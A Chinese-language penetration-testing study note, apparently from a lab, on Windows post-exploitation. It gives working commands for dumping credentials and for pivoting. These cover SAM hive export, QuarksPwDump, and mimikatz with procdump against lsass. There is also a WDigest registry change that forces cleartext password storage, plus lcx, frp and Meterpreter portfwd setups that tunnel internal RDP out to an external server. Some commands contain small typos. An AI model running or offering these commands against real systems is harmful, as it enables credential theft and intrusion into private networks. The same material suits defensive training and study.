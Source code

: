 ### 利用wce获取hash

- `getshell`以后上传`wce.exe`

![image-20241107182704886](./assets/image-20241107182704886.png)

- 上传`exe`上线`cs`

![image-20241107183302247](./assets/image-20241107183302247.png)

![image-20241107183354336](./assets/image-20241107183354336.png)

![image-20241107184346337](./assets/image-20241107184346337.png)

****

### 使用QuarksPWDump获取hash

- 执行命令

```cmd
QuarksPwDump.exe -dhl
```

![image-20241107184628072](./assets/image-20241107184628072.png)

****

### 常规免杀获取hash

#### 使用`注册表`导出hash,本地破解

- 执行命令

```cmd
reg save HKLM\SYSTEM sys.hiv
reg save HKLM\SAM sam.hiv
reg save HKLM\security security.hiv
```

**![image-20241107185026431](./assets/image-20241107185026431.png)**

- 执行`命令`(这里由于靶机没有安装net对应版本环境所以没有成功!)

```cmd
Secretsdump.exe -sam sam.hiv -security.hiv -system sys.hiv LOCAL
```

![image-20241107190030193](./assets/image-20241107190030193.png)

****

#### 导出sam文件

- 适用于`域控`数量很大的情况

```cmd
shadow copy
```

****

#### 其它方式

```cmd
procdump+mimikatz
Powershell+mimikatz
Powershell+getpasshash
....
```

<img src="./assets/image-20241107190927531.png" alt="image-20241107190927531" style="zoom: 50%;" />

```cmd
# windows 2008 获取明文密码
mimikatz.exe ""privilege::debug"" ""sekurlsa::logonpasswords full"" exit >>log.txt

# windows 2012 获取明文密码
# 1.修改注册表
reg add hkey_local_machine\system\currentcontrolset\control\securityproviders\wdigest\ /v uselogoncredential /t reg_dword /d 1 /f
# 2.锁屏或注销,让用户重新登录
# 3.procdump获取内存中的密码信息,将lsass.exe下载到本地
procdump64.exe -accepteula -ma lsass.exe lsass.dmp
# 使用mimikatz读取密码信息
mimikatz.exe ""privilege::debug"" ""sekurlsa::logonpasswords full"" exit >>log.txt

# windows 2016 获取明文密码
# 修改注册表开启UseLogonCredential,通过修改注册表让 Wdigest Auth 保存明文密码
reg_add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders|WDigest /v UseLogonCredential /t 
REG_DWORD /d 1 /f
# 锁屏...
# 获取明文密码
mimikatz.exe ""privilege::debug"" ""sekurlsa::logonpasswords full"" exit >>log.txt
```

****

### 内网转发

- 使用一些技术,通过`中间服务器进行中转`,将内部的`端口映射`到公网ip上,或者将`内部端口转发`到外部服务器,供外网用户访问
- 内网转发的三种方式
  - 端口转发:用于目标机器对`某一端口的访问`进行`限制`,可以将本机的端口或者本机可以访问到的任意主机的`端口转发`到任意一台需要访问的公网ip上
  - 端口映射:将一个`内网`无法访问的端口`映射`到`公网`的某个端口,进行攻击
  - 代理转发:主要用于在目标机器上`做跳板`,进而对内网进行攻击

****

#### 端口转发

- 原理:将一个`端口`转发到任意一台可以访问的到的`公网ip`上
- 端口转发工具`lcx`:基于`socket`套接字实现的端口转发工具,有Windows和Linux两个版本,Linux版本为`porttmap`

```cmd
#转发端口
lcx.exe -slave 公网ip 端口 内网ip 端口
#监听端口
lcx.exe -listen 转发端口 本机未被占用端口
#映射端口
lcx.exe -tran 映射端口号 目标ip 目标端口
```

****

##### 本地端口映射

- 如果目标服务器由于防火墙限制,部分端口的`数据无法通过`防火墙,可以将目标服务器`相应的端口的数据`传到防火墙`允许的其它端口`

```cmd
#映射端口
lcx.exe -tran 映射端口号 目标ip 目标端口
```

- 例如:
  - `3389`端口流量无法通过防火墙,那么可以将改目标主机的端口`3389`端口流量转发到其它允许的端口号上如`6666`端口
  - 远程桌面连接 `目标主机ip:6666`

****

##### 远程端口转发

- 访问规则:攻击者可以访问web服务器,web服务器可以访问内网的服务器,攻击者不可以访问内网服务器
- 假设拿到了一个web服务器的权限,它可以访问内网,现在要`通过web服务器访问到内网中的主机资源`,进一步渗透,这时需要`web服务器`当作中间的`跳板`,也就是`代理的作用`让攻击者访问到内网的主机

****

### lcx基本使用

#### 实验一

- 环境:`80`端口不对外开放,但是`8080`端口对外开放且未被占用

- 目前8080端口未被占用

  <img src="./assets/image-20241107195114919.png" alt="image-20241107195114919" style="zoom:33%;" />

```cmd
lcx.exe -tran 8080 127.0.0.1 80
```

<img src="./assets/image-20241107195252002.png" alt="image-20241107195252002" style="zoom: 50%;" />



- 现在可以正常访问了

****

#### 实验二

```cmd
# 外网服务器开启监听
lcx.exe -listen 4444 12345
```

![image-20241107195951075](./assets/image-20241107195951075.png)

```cmd
# 将被控主机端口转发到外网服务器
lcx.exe -slave 公网ip 端口 被控服务器ip 端口
lcx.exe -slave 192.168.71.54 4444 127.0.0.1 3389
```

![image-20241107200100783](./assets/image-20241107200100783.png)

```cmd
# 在外网服务器连接本地12345端口
127.0.0.1:12345
```

<img src="./assets/image-20241107200348820.png" alt="image-20241107200348820" style="zoom:33%;" />

****

### frp的基本使用

- 服务器修改`frps.ini`文件

```cmd
[common]
bind_port = 7000	#frp服务器监听端口
dashboard_port=7500	#web后台监听端口
dashboard_user=admin	#web后台用户名和密码
adshboard_pwd=admin	
token=123456	#用于客户端和服务端连接的口令
```

- 服务器运行

![image-20241107202055751](./assets/image-20241107202055751.png)

<img src="./assets/image-20241107202133695.png" alt="image-20241107202133695" style="zoom:33%;" />

- 客户端设置

```cmd
[common]
server_addr = 8.137.60.154	#服务器ip
server_port = 7000	#服务器端口
token=123456
[ssh]
type = tcp
local_ip = 127.0.0.1
local_port = 3389	#本地端口
remote_port = 7001	#规则开放的端口
```

![image-20241107203650458](./assets/image-20241107203650458.png)

<img src="./assets/image-20241107203956371.png" alt="image-20241107203956371" style="zoom: 50%;" />

****

### portfwd的基本使用

- add/delete

```CMD
portfwd add -l 6666 -p 3389 -r 192.168.71.54
```

![image-20241108152551795](./assets/image-20241108152551795.png)

- 列出

```cmd
portfwd list
```

![image-20241108152705430](./assets/image-20241108152705430.png)

- 移除本地所有端口

```cmd
portfwd flush
```

- 连接